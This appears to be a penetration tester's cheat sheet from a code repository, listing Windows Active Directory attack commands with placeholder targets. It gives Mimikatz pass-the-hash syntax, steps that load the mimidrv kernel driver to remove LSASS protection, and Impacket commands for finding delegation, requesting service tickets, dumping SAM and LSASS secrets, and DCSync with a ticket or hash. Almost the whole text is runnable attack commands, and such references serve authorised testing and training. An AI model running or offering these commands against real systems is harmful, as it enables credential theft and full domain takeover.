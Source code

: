 ## Mimikatz pth
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nthash> /run:powershell.exe"'
```

## Disable PPL (Lsass Protection) sc.exe - 1
```
cmd /c "sc create mimidrv binPath= C:\windows\tasks\mimidrv.sys type= kernel start= demand"
```

## Disable PPL (Lsass Protection) sc.exe - 2
```
cmd /c "sc start mimidrv"
```

## Disable PPL (Lsass Protection) - 3
```
Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""
```

# Impacket
## Recon Find Delegation
```
impacket-findDelegation -target-domain <domain> -dc-ip <dc_ip> <domain>/'<username>':'<password>'
```


## secretsdump.py SAM and Lsass
```
impacket-secretsdump <domain>/'<username>':'<passowrd>'@<ip>
```

## Recon Get SPN
```
impacket-GetUserSPNs -request -dc-ip <dc-ip> <domain>/'<username>':'<password>'
```

## secretsdump.py DCSync using ticket
```
impacket-secretsdump <dc_ip> -k -no-pass -just-dc
```

## secretsdump.py DCSync using hash
```
impacket-secretsdump -just-dc -hashes <hashes> <domain>/'<username>'@<dc_ip>
```
